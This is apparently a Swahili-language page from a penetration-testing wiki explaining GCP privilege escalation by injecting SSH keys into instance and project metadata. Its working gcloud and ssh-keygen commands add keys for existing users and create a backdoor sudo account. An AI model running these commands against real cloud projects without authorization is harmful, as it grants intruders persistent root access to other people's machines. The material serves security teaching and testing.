 # GCP - Ongeza Metadata ya SSH ya Kijadi

## GCP - Ongeza Metadata ya SSH ya Kijadi

{{#include ../../../../banners/hacktricks-training.md}}

### Kubadilisha metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Kubadilisha metadata kwenye mfano kunaweza kusababisha **hatari kubwa za usalama ikiwa mshambuliaji atapata ruhusa zinazohitajika**.

#### **Kuongeza Funguo za SSH kwenye Metadata ya Kijadi**

Katika GCP, **mifumo ya Linux** mara nyingi inatekeleza skripti kutoka kwenye [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Sehemu muhimu ya hii ni [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), ambayo imeundwa ili **kuangalia mara kwa mara** kiungo cha metadata ya mfano kwa **sasisho la funguo za umma za SSH zilizoidhinishwa**.

Hivyo, ikiwa mshambuliaji anaweza kubadilisha metadata ya kijadi, anaweza kufanya daemon ipate funguo mpya za umma, ambazo zitawekwa na **kuunganishwa kwenye mfumo wa ndani**. Funguo hiyo itaongezwa kwenye faili ya `~/.ssh/authorized_keys` ya **mtumiaji aliye tayari au labda kuunda mtumiaji mpya mwenye ruhusa za `sudo`**, kulingana na muundo wa funguo. Na mshambuliaji ataweza kuathiri mwenyeji.

#### **Ongeza funguo ya SSH kwa mtumiaji mwenye ruhusa**

1. **Chunguza Funguo za SSH Zilizopo kwenye Mfano:**

- Tekeleza amri ya kuelezea mfano na metadata yake ili kupata funguo za SSH zilizopo. Sehemu inayohusiana katika matokeo itakuwa chini ya `metadata`, hasa funguo ya `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Angalia muundo wa funguo za SSH: jina la mtumiaji linatangulia funguo, likitenganishwa na alama ya nukta.

2. **Andaa Faili ya Teksti kwa Metadata ya Funguo za SSH:**
- Hifadhi maelezo ya majina ya watumiaji na funguo zao za SSH zinazohusiana kwenye faili ya teksti inayoitwa `meta.txt`. Hii ni muhimu kwa kuhifadhi funguo zilizopo wakati wa kuongeza mpya.
3. **Unda Funguo Mpya ya SSH kwa Mtumiaji Lengo (`alice` katika mfano huu):**

- Tumia amri ya `ssh-keygen` kuunda funguo mpya ya SSH, kuhakikisha kuwa uwanja wa maoni (`-C`) unalingana na jina la mtumiaji lengo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Ongeza funguo mpya ya umma kwenye `meta.txt`, ukifanana na muundo ulio katika metadata ya mfano.

4. **Sasisha Metadata ya Funguo za SSH za Mfano:**

- Tumia amri ya `gcloud compute instances add-metadata` kupeleka metadata ya funguo za SSH iliyosasishwa kwenye mfano.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Fikia Mfano kwa Kutumia Funguo Mpya ya SSH:**

- Unganisha kwenye mfano kwa SSH ukitumia funguo mpya, ukifikia shell katika muktadha wa mtumiaji lengo (`alice` katika mfano huu).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Unda mtumiaji mpya mwenye ruhusa na ongeza funguo ya SSH**

Ikiwa mtumiaji yeyote wa kuvutia hakupatikana, inawezekana kuunda mpya ambayo itapewa ruhusa za `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

Inawezekana kupanua ufikiaji wa SSH kwa Mashine nyingi za Kielektroniki (VMs) katika mazingira ya wingu kwa **kuweka funguo za SSH katika kiwango cha mradi**. Njia hii inaruhusu ufikiaji wa SSH kwa mfano wowote ndani ya mradi ambao haujazuia wazi wazi funguo za SSH za mradi. Hapa kuna mwongozo wa muhtasari:

1. **Apply SSH Keys at the Project Level:**

- Tumia amri `gcloud compute project-info add-metadata` kuongeza funguo za SSH kutoka `meta.txt` kwenye metadata ya mradi. Kitendo hiki kinahakikisha kwamba funguo za SSH zinatambulika katika VMs zote ndani ya mradi, isipokuwa VM ambayo ina chaguo la "Block project-wide SSH keys" imewezeshwa.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH into Instances Using Project-Wide Keys:**
- Pamoja na funguo za SSH za mradi, unaweza SSH kwenye mfano wowote ndani ya mradi. Mifano ambayo haizuia funguo za mradi itakubali funguo za SSH, ikitoa ufikiaji.
- Njia moja ya moja ya SSH kwenye mfano ni kutumia amri `gcloud compute ssh [INSTANCE]`. Amri hii inatumia jina lako la mtumiaji wa sasa na funguo za SSH zilizowekwa katika kiwango cha mradi kujaribu ufikiaji.

## References

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
